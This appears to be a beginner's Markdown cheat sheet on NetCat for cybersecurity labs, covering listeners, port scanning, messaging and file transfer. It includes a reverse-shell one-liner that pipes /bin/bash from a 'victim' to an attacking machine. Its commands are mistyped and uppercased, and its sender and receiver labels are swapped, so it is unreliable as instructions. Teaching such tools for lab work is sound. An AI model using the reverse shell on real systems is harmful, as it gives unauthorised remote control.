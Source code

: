 # NETCAT

## What is NetCat
NetCat (NC) is a powerful network tool used for:
- Sending & Receeiving data over networks
- Scanning Ports
- Creating Reverse Shells
- File Transfer and Mores

Common in penetration testing and cybersecurity labs.

## Basic NetCat command structure
NC [OPTIONS] [IPADDESS] [PORT]

#### Example
    NC 192.168.1.1 80

    This connect to port 80 of the given IP.

## Set Up a Listener
Create a Listener on a port:
    NC -LVP 4444

    - L = LISTEN MODE
    - V = VERBOSE 
    - P = PORT

    Use this to receive data or connections.

## Scan open ports on a Target
Port scanning with NETCAT:
    NC -ZV 192.168.1.1-1000

    - Z = NO DATA TRANSFER
    - V = VERBOSE OUTPUT

Find open ports quickly.

## Send a message to a listening port
Send Data Using NETCAT:
    ECHO "HELLO FROM WORKSPACE" | NC 192.168.1.2 4444

Test how data is transmitted between system!

## Transfer file with NetCat
SEND FILE (SENDER)
    NC -LVP 4444 > RECEIVED.TXT
RECEIVE FILE (RECEIVER):
    NC 192.168.1.2 < FILE.TXT

Super easy way to transfer file in LAN.

## Create a simple reverse sheel
For education testing only
    NC -E /BIN/BASH 192.168.1.2 4444

Create a shell connection from victim to attrack machine. Only use in LAB/TESTING Environment with permission.

## Usecases in CyberSecurity 
- Port scanning
- Backdoor testing
- Remote Access
- File Transfer in CFTS
- Testing firewall rules

Very useful in ethical hacking and penetration testing courses.

